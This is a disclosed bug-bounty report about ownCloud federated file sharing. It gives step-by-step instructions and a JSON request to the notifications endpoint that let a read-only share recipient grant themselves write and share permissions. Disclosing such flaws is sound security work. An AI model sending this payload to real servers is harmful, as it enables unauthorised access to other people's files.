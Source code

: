# Federated share permissions can be increased by recipient

## Report Details
- **Report ID**: 1990443
- **URL**: https://hackerone.com/reports/1990443
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-05-17T08:52:57.876Z
- **Disclosed**: 2023-06-24T08:28:41.084Z

## Reporter
- **Username**: rullzer
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: owncloud

## Vulnerability Information
1. userA on serverX does a federated share to userB on serverY (this by default is read only)
2. userB accepts the share
3. userB does a request to

```https://SERVERY/apps/federatedfilesharing/notifications```

With the content. Replacing the SHARE_TOKEN, and the SHARE_ID they find in their database

```
{
    "notificationType": "RESHARE_CHANGE_PERMISSION",
    "resourceType": "file",
    "providerId": "SHARE_ID",
    "notification": {
        "sharedSecret": "SHARE_TOKEN",
        "permission": ["read", "write", "share"]
    }
}
```

4. userB now has full access

## Impact

A recipient can increase their permissions trivially

## Attachments
No attachments
